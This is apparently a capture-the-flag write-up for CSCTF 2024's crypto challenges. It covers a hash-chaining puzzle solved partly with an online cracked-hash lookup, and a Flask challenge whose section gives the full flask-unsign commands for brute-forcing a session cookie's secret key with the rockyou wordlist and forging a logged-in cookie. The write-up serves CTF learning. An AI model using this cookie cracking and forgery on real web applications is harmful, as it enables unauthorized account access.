 ```yaml
---
title: /articles/CSCTF_2024/CRYPTO.md
layout: page
permalink: /articles/CSCTF_2024/CRYPTO
---
```


# Hashes

![CTF](./imgs/Hashes.png)

we have to follow the instructions

the md5 sum for "CSCTF" is `542dc648d5c62e61bd1f30a63b1c6dbe`.
we put that into `ctf.txt`.

to calculate the sha256 hash of the file we use `sha256`. we get `3c2d667f257c3d1ddeba049fe1f723cec9a0de6c438d744285d24cbd81a897d1`.

to crack the hash we can use an online database that checks the hash if it has been cracked previously. we get `#winner`. the sha1 hash of this is `22124982b891828006f9d759f32a8b01352c70df`. we put that on a new line inside `ctf.txt` and get 	`7602e0234d40319989e8c1c14349403b1fba145ee081322b04115e85b7197db1fa0e318dd9715ce7fa5518e8f9bc4af2e2a4b399fb6604292590734cbbce4ab6`.

easy, right?


# Signed Flask

![CTF](./imgs/Signed_Flask.png)

based on the description we have to crack the `session` cookie found on the site such that we cand sign with the same password a `{'logged_in': True}` cookie to feed back into the browser. we do as follows:

```
flask-unsign --wordlist /usr/share/wordlists/rockyou.txt --unsign --cookie "eyJsb2dnZWRfaW4iOmZhbHNlfQ.ZgjXBQ.xY8gCZc84swJmK7IadguxeQuWYo" --no-literal-eval
[*] Session decodes to: {'logged_in': False}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 2171264 attemptscas
b'98765432123456789'
```


the password is `98765432123456789`. we can then sign a new cookie with this password:

```
flask-unsign --sign --cookie "{'logged_in': True}" --secret "98765432123456789" --no-literal-eval
eyJsb2dnZWRfaW4iOnRydWV9.ZgvywQ.dJ-IPPotPxE6_cd1bYjYJkZjGW0
```

replacing this in the browser we have broke in :)

but to remember all we had to do was to get the `SECRET_KEY` and that is `98765432123456789`. 

check out the next section [WEB](./WEB)